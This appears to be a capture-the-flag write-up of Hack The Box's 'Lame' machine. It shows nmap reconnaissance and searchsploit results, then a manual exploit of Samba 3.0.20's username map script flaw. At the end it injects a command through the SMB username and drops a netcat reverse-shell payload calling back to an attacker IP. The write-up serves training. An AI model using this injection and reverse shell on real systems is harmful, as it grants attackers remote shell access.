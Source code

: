 # Recon
## nmap
```bash
# Nmap 7.92 scan initiated Fri Oct 22 17:39:12 2021 as: nmap -p21,22,139,445,3632 -sCV -oA tcpscripts 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.30s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.21
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-10-22T18:40:04-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m23s, deviation: 2h49m45s, median: 20s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 22 17:40:21 2021 -- 1 IP address (1 host up) scanned in 69.26 seconds
```

Looking at the services, there is a Samba 3.0.20.

## Samba Exploit.
### Manualy
#### Script Analysis

Looking with `searchsploit` we can go and check the `metasploit` script and check what it does.


```bash
searchsploit Samba 3.0.20
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                                                              |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                                                                                                      | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                                                                                                            | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                                                                                       | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                                                                                       | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                                                                                                               | linux_x86/dos/36741.py
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

<img src="/assets/img/lame/1.png">

Checking this part of the script, look like we can get access with SMB without aunthenticate. But we are not gonna use the script we are gonna do it by our own.


First lets get access to the SMB as anonymous, and then we can do `logon` to change users.

After getting the access we are gonna use the same username to get access

* username = ``/=`nohup [payload]``
* password = use enter

So lets use that `username` and drop the payload `nc -e /bin/sh 10.10.14.24 443`.

<img src="/assets/img/lame/1.5.png">
<img src="/assets/img/lame/2.png">